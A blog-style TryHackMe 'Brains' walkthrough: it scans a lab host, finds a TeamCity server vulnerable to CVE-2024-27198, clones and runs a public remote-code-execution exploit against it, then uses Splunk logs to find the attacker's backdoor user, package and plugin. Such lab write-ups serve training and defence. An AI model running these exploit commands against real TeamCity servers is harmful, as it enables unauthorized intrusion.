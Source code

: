 ```yaml
---
title: THM — Brains walkthrough (easy)
date: 2024-10-08 12:34:27 -500
categories: [Write-up, TryHackMe]
tags: [tryhackme, write-up, ctf, easy]
image: 'assets/img/articles/Brains.png'
description: This room has two parts, the first one is offensive and the second one is defensive.
---
```


[![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fwww.cyber-owl.xyz%2Fposts%2FTHM_BRAIN%2F&count_bg=%23DB57CC&title_bg=%23A037CB&icon=opsgenie.svg&icon_color=%23E5E3E3&title=views&edge_flat=false)](https://hits.seeyoufarm.com)

> Walkthrough of room Brains from TryHackMe :
> https://tryhackme.com/r/room/brains

![Image logo](https://miro.medium.com/v2/resize:fit:640/format:webp/1*6nIb44thdlmlI4xeiXfXig.png "Room screenshot")

This room has two parts, the first one is offensive and the second one is defensive.

---

## Part one 🥷— Exploit the server!

There only one mission here, find the flag!

> What is the content of flag.txt in the user’s home folder?

I start by checking if the target is reachable.

![ping test](https://miro.medium.com/v2/resize:fit:720/format:webp/1*daZkj3P1REKt6ayGRHRiUw.png "ping test")

Everything seems okay, let’s exploit then!

### Reconnaissance

![recon by arnold](https://miro.medium.com/v2/resize:fit:640/format:webp/0*hVWUAlIpF3m7rIu5.gif "recon by arnold")

We gonna start by *reconnaissance* to be aware of all (almost) possibilities. It’s more interesting to know what you’re getting into.

```zsh
nmap 10.10.125.92  
  
Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-12 22:02 BST  
Nmap scan report for ip-10-10-125-92.eu-west-1.compute.internal (10.10.125.92)  
Host is up (0.0038s latency).  
Not shown: 997 closed ports  
PORT STATE SERVICE  
22/tcp open ssh  
80/tcp open http  
50000/tcp open ibm-db2  
MAC Address: 02:9D:92:C4:AB:2B (Unknown)  
  
Nmap done: 1 IP address (1 host up) scanned in 1.67 seconds
```

There are three possible options:

- SSH: May be a brute-force or anonymous login (the least likely)
- HTTP: May be a WebApp hosted locally (Enumeration with gobuster)
- ibm-db2 on **50000/tcpd**

### HTTP port

![picture of the website "under maintenance"](https://miro.medium.com/v2/resize:fit:720/format:webp/1*XvL-V9YMDG24FEdyY0s02w.png "under maintenance")

The site is _under maintenance_ and Gobuster showed nothing.

![a man crying](https://miro.medium.com/v2/resize:fit:640/format:webp/1*gpP4cfml0n8rYgx3Uhbn5g.gif "i am crying")

But let’s move on the **_port 50000_**.

### ibm-db2 port

![login page to TeamCity webapp](https://miro.medium.com/v2/resize:fit:640/format:webp/1*3d_ry35GB1FW_qfbqEWLKw.png "login page of TeamCity")

- Port 50000 is used for the ibm-db2 service
- Database service
- Login page at: `http://10.10.125.92:50000/login.html`

![That's our target](https://miro.medium.com/v2/resize:fit:640/format:webp/1*fRWHPZl9rgUm3nYmW6GhUw.gif "Target founded")

- Login page uses Jetbrain TeamCity `version 2023.11.03`

After Googling (Jetbrain TeamCity version 2023.11.03 CVE) a bit we found:

> TeamCity is a continuous integration server developed by JetBrains. (from jetbrains.com)

- Jetbrain TeamCity version _vulnerable_ to **CVE-2024–27198**
- Possible **Remote Code Execution** ([https://github.com/W01fh4cker/CVE-2024-27198-RCE.git](https://github.com/W01fh4cker/CVE-2024-27198-RCE.git%60))

![bingo](https://miro.medium.com/v2/resize:fit:440/format:webp/1*eI-JQ5cJwVTCYnZ3DY7_Mw.gif "bingo")

Enough of reconnaissance, let’s try this RCE.

### RCE exploit

![Github repo of the RCE script](https://miro.medium.com/v2/resize:fit:696/1*kq_J76kVztxMcrGESL2jIw.png)

**Installation**

```bash
git clone https://github.com/W01fh4cker/CVE-2024-27198-RCE.git  
  
cd CVE-2024-27198-RCE  
  
pip install requests urllib3 faker  
  
# I got troubles executing the python script  
# ModuleNotFoundError raised (faker not found)  
# The solution for me (do it only if the script raise the same error):  
  
sudo apt install faker
```

Now everything seems good. Time to execution

```bash
python CVE-2024-27198-RCE.py -t http://10.10.125.92:50000
```

The result:

![TeamCity RCE script execution](https://miro.medium.com/v2/resize:fit:700/1*L89gRT7r3JZeK98qXopRlg.png)

The box is over, we’re in 🥷

![Neo inside the matrix](https://miro.medium.com/v2/resize:fit:220/1*sGrk_cgQUg4uRa4uL1qlfg.gif "I'm in")

First flag done ✅

![1st flag](https://miro.medium.com/v2/resize:fit:700/1*pvvCOATvbZBB33Uw0w_3uQ.png "1st flag")

---
## Part two 🕵️‍♂️— Let’s investigate

![Duffy investigating](https://miro.medium.com/v2/resize:fit:220/1*aUMpEFOwKFmwd5StXfgNJA.gif "time to investigation")


Let’s visit _http://IP_TARGET:8000_ to get connected with ***Splunk***.

> What is the name of the backdoor user which was created on the server after exploitation?

Go to “**Search & Reporting > Data Summary > Sourcetypes”**

Go to “**Search & Reporting > Data Summary > Sourcetypes”**

![](https://miro.medium.com/v2/resize:fit:558/1*1Hp9yrLiI1paEyXoVIIT_Q.png)

![](https://miro.medium.com/v2/resize:fit:1071/1*4oLFZbB9w-6HwUGlAIN9MA.png)

Then choose **_auth_logs_** because **user creation** is probably related to **authentication** than the other sources here.

![](https://miro.medium.com/v2/resize:fit:700/1*wrYmw2IgFr4v1CA0lTx6Ww.png)

Change the observation windows from “**Last 24 hours”** to “**Before (today)”**and apply.

![](https://miro.medium.com/v2/resize:fit:700/1*1Q4_glyNlV4clZhNAGplJg.png)

At the bottom left of the website, click to get more fields.

![](https://miro.medium.com/v2/resize:fit:439/1*wZDwItrzRbZ1-g8bYsjClg.png)

Expand the “**name”** field and the flag the malicious one. Click on the malicious name and you will get the logs related. Save the date of these logs 07/04/2024 (mm-dd-yyyy).

![2nd flag](https://miro.medium.com/v2/resize:fit:700/1*mOxjyJtbEvNbBsiNBZ2aKQ.png "2nd flag")


What is the name of the malicious-looking package installed on the server?

Now we have to go back to **Data summary** and choose **_packages_**.

![](https://miro.medium.com/v2/resize:fit:700/1*WD_ERZsySZVmNC0wU5KkLQ.png)

Let’s change the observation windows from **“Last 24 hours”** to **“Since 7/4/24”**, apply, click on the key word “**_installed”_**, then **Add to search**.  
It will only show the installation logs. Still huge, reduce the observation window and move closer to 7/4/24 until there are fewer than 5 logs.

![](https://miro.medium.com/v2/resize:fit:700/1*1iviYRCbpKX06vV2Sf19AQ.png)

The third flag is here.

![3rd flag](https://miro.medium.com/v2/resize:fit:700/1*dTRPCRiAxpNxoX_GUm9hRA.png "3rd flag")


> What is the name of the plugin installed on the server after successful exploitation?

Now we have to go back to **Data summary** and choose **_Sources/teamcity-activities.log_**.

![](https://miro.medium.com/v2/resize:fit:700/1*HjQTWX-PXUxCfMrJzova0w.png)

Filter with “**_plugin”_** and here is the **last flag**.

![4th flag](https://miro.medium.com/v2/resize:fit:700/1*aUx1glaDyYhxpBWqwA3J0A.png)


All flags down, mission passed.

![](https://media1.tenor.com/m/lQBJJmatxPYAAAAd/mission-accomplished-penguins.gif)

Be proud of what you’ve accomplished.

See you soon!

> “Security used to be an inconvenience sometimes, but now it’s a necessity all the time.” — Martina Navratilova

## Comments
<script src="https://giscus.app/client.js"
        data-repo="Deomorphisme/Deomorphisme.github.io"
        data-repo-id="R_kgDONEIr-Q"
        data-category="General"
        data-category-id="DIC_kwDONEIr-c4CjomU"
        data-mapping="pathname"
        data-strict="0"
        data-reactions-enabled="1"
        data-emit-metadata="0"
        data-input-position="top"
        data-theme="preferred_color_scheme"
        data-lang="en"
        data-loading="lazy"
        crossorigin="anonymous"
        async>
</script>